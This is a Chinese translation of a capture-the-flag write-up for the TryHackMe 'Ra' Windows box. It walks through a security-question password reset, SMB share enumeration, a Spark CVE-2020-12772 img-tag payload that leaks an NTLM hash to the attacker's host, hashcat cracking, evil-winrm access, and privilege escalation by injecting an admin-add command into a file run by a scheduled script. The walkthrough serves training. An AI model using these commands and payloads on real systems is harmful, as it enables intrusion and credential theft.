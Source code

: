 # Ra 箱(THM)演练

> 原文：<https://infosecwriteups.com/walkthrough-on-ra-box-thm-a70b8e27f14?source=collection_archive---------1----------------------->

让我们解决来自 Tryhackme 的名为“Ra”的盒子

![](img/d9f8bb883d9fc4739d9081916ed9a230.png)

Ra 徽标

# 渗透测试方法

1.  **侦察**
2.  **枚举**
3.  **剥削**
4.  **权限提升**

在 [Tryhackme](https://tryhackme.com/room/ra) 访问此框

# **侦察:-**

Nmap:- Nmap 扫描显示几个端口打开

![](img/22810de29018c3813895dc5c224421d7.png)

Nmap

*   浏览网页后，我们可以看到需要保存到`/etc/hosts`中的`fire.windcorp.thm`和`windcorp.thm`
*   然后查看网页，有一个`resetpassword`按钮提示安全问题

![](img/b16fd73b484d1f6d630b373c948f91f8.png)

重置密码页面

*   因此，要获得用户名和安全问题的答案，我们可以浏览网页并滚动到最后，我们可以看到员工列表和一个名为`Lily levesque`的员工发布了她和她的狗的照片，狗的名字出现在图片 URL(即 sparky)上

![](img/8eb6935cfca792bd33f7e3032df0daac.png)

莉莉·莱维斯克(雇员)

*   通过粘贴用户名为`Liliye`并将安全问题改为 pet，答案为`Sparky`

![](img/d4ab1f84a4b65ca49abe4adf3df35ddf.png)

*   我们还得到了一个重置密码

![](img/1bde869ed96dcabca8e77a29f799531e.png)

密码已更改

# 枚举:-

*   因为我们知道 149 和 445 端口是打开的，也就是`smb`，我们能做的就是使用`smbmap`工具和 liliye 的用户名和密码来列出其中的所有目录
*   我们使用这个命令`smbmap -u lilyle -p Changeme#123 -R -H windcorp.thm`，由于这个工具执行递归搜索并提取所有目录，我列出了对我们来说重要的目录

![](img/2770978513b27bcd79589c19788a457a.png)

smbmap

*   现在，我们可以看到 Flag1.txt 位于`Shared`文件夹中，所以我们使用`smb-client`来列出文件`smbclient \\windcorp.thm\Shared -U lilyle --password ChangeMe#1234`的内容

![](img/8b838dfd7145964da90fe96d0712ccb4.png)

SMB 客户端

*   因为我们可以看到标志和 spark 文件，快速的谷歌搜索让我明白了什么是 spark，它是一个在工具之间进行通信的即时通讯工具
*   我们还可以在`Shared`文件夹中看到一个特定的版本，它指出这个过时的版本有特定的漏洞，我发现了[这个](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md)

# 剥削

*   通过运行 Spark(2.8.3)和发送有效载荷`<img src="http://<your-IP>/image.jpg"`并打开响应器将捕获`buse` NTLM 散列

![](img/eb8e342a22e058fa12e7d792d5b23181.png)

混杂

*   然后在运行 hashcat 之后，我们得到破解的密码`uzunLM+3131`，命令是`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

![](img/69fd33e97784ab16f78b7cb9fe92b29f.png)

密码

*   既然我们知道用户名和密码，我们可以使用 evil-winrm 来获取访问权限，使用下面的命令`evil-winrm -u buse -p uzunLM+3131 -i windcorp.thm`

![](img/33da305b200efc836f3d86fe94ae30f0.png)

邪恶-winrm

# 特权逃脱

*   遍历到`C:\>`并列出内容会让我们明白有一个不寻常的文件叫做脚本，在列出脚本后，我们可以找到两个文件`log.txt`和`checkserver.pl1`。

![](img/1b8f69e59ac2ce39b46ed67140792ccd.png)

*   查看 log.txt 和 checkservers.ps1 后，我们可以理解代码正在获取`C:\Users\brittanycr\hosts.txt`并执行其中的命令
*   根据组信息，我们作为管理员拥有所有的访问权限，如创建、删除、编辑低特权用户，而我们不能做任何与管理员帐户相关的事情
*   因此，我们可以使用这个命令`net user /domain <user-name> <passoword>`创建一个新用户
*   因为该用户没有管理员权限，我们无法将该访问权限设置为`buse`用户。我们可以编辑 Hosts.txt 文件，并使用这个命令`net localgroup Administrators hacker /add`更新它，这个命令改变了管理员的访问级别

但是，我们如何访问它呢？

*   我们可以使用 Smbclient 作为`brittanycr`用户登录，并在那里编辑文件

![](img/327ff34045db9f666333ed4f1ca6983c.png)

SMB 客户端

*   所以，这些就是我们编辑`hosts.txt`文件的步骤

1.  使用`get hosts.txt`将其下载到本地机器
2.  编辑我们主机上的文件，并添加`net localgroup Administrators hacker /add`
3.  在上传我们编辑过的文件之前，我们先用`rm.txt`删除 hosts.txt，然后用`put hosts.txt`上传到那台机器上

*   上传 hosts.txt 之后，我们已经知道这个`checkservers.ps1`每分钟运行一次，获取 hosts.txt 并在其中运行命令
*   因此，大约一分钟后，我们的黑客帐户是管理员特权，所以我们可以使用 evil-winrm 作为黑客登录，并收到第三个标志

就这些，感谢阅读